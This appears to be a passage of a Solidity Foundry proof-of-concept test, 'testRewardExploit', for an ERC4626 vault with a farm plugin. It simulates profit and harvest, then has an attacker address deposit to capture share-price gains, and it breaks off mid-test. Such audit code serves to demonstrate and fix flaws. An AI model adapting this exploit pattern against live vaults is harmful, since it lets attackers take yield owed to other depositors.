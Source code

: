 ```solidity
function simulateVaultProfit(uint256 amount, bool isPositive) internal {
        if (amount == 0) return;
        if (isPositive) {
            // Mint additional "yield" tokens directly to the vault.
            ERC20Mock(address(asset)).mint(address(vault), amount);
            // Ensure owner has tokens so that depositFor can transfer them.
            ERC20Mock(address(asset)).mint(owner, amount);
            // Approve the farmPlugin to spend tokens from owner.
            vm.prank(owner);
            IERC20(asset).approve(address(farmPlugin), amount);
            // Call depositFor with the vault as the receiver.
            vm.prank(owner); 
            farmPlugin.depositFor(address(vault), amount);
        } else {
            uint256 bal = farmPlugin.balanceOf(address(vault));
            vm.prank(owner);
            farmPlugin.withdrawTo(bob, amount);
        }
    }

function simulateHarvest(uint256 amount) internal {
        if (amount == 0) return;
        ERC20Mock(address(asset)).mint(address(vault), amount);
        ERC20Mock(address(asset)).mint(owner, amount);
        vm.prank(owner);
        IERC20(asset).approve(address(farmPlugin), amount);
        vm.prank(owner);
        farmPlugin.depositFor(address(vault), amount);
}

function _getVaultData() internal view returns (VaultData memory) {
        return VaultData({
            totalAssets: IERC4626(vault).totalAssets(),
            totalShares: IERC4626(vault).totalSupply()
        });
}

function testRewardExploit() public {
        uint256 depositAmount = 10 ether;
        uint256 expectedShares = vault.previewDeposit(depositAmount);
        fundUser(bob, depositAmount);
        approveToVault(bob, depositAmount);
        depositIntoVaultAndVerify(bob, depositAmount, expectedShares, true, "");

        uint256 simulatedProfit = 1 ether;
        simulateVaultProfit(simulatedProfit, true);

        VaultData memory preState = _getVaultData();
        require(preState.totalShares > 0, "No shares minted");
        console.log("Total shares:", preState.totalShares);
        console.log("Total assets:", preState.totalAssets);
        uint256 preSharePrice = preState.totalAssets * 1e18/ preState.totalShares;
        console.log("Pre-harvest share price:", preSharePrice);

        address attacker = address(0xABC);
        uint256 attackerDeposit = 2 ether;
        fundUser(attacker, attackerDeposit);
        approveToVault(attacker, attackerDeposit);
        uint256 attackerExpectedShares = vault.previewDeposit(attackerDeposit);
        depositIntoVaultAndVerify(attacker, attackerDeposit, attackerExpectedShares, true, "");

        uint256 attackerSharesAfterDeposit = IERC4626(vault).balanceOf(attacker);
        console.log("Attacker shares after deposit:", attackerSharesAfterDeposit);
```